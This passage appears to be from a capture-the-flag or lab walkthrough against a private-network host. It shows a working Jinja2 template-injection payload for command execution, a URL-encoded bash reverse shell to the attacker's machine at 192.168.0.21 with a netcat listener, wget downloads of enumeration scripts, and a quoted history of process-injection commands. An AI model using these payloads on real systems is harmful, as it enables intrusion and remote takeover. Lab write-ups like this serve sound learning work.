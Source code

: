  So I found a way to exec a command.
 ```sh
 http://192.168.0.32:9999/?name={%import%20os%}{{os.popen(%22whoami%22).read()}}
 ```
 ![](https://i.imgur.com/pPLSXaE.png)
 Good now I want to use a revershell.
 I'm gonnna use this one:
 ```sh
 bash -c "bash -i >& /dev/tcp/192.168.0.21/4648 0>&1"
 ```
 
But when I'm trying to run it in my browser I have an error.
I have to use `burpsuit`.
With this tool I saw where was the problem, the `&` was not in the payload, it was interpreted as an another command.
I have to encode my request and then send it.
https://www.urlencoder.org/
```sh
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.0.21/4648 0>&1"')}}
```
Output:
```sh
%7B%25%20import%20os%20%25%7D%7B%7Bos.system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.21%2F4648%200%3E%261%22%27%29%7D%7D
```
I have to listen first.
```sh
nc -nlvp 4648
```
![](https://i.imgur.com/rfj0dri.png)
![](https://i.imgur.com/YLKgvAa.png)

# Enumeration
## Create web server 
On my computer.
```sh
python2.7 -m SimpleHTTPServer
```
## Download them
```sh
wget http://192.168.0.21:8000/lse.sh
wget http://192.168.0.21:8000/lin.py
```

 ![](https://i.imgur.com/14FV4Qm.png)
![](https://i.imgur.com/IYKaZIL.png)

Nothing interesting
## Bash history
![](https://i.imgur.com/YYCyM9U.png)
Only this part is interesting.
```sh
python2.7 inject.py 405
nc 127.0.0.1 5600
ps -eax|grep root
ps -eaf|grep root
python2.7 inject.py 735
nc 127.0.0.1 5600
```
So, in the first line he is using an injector on the PID 405.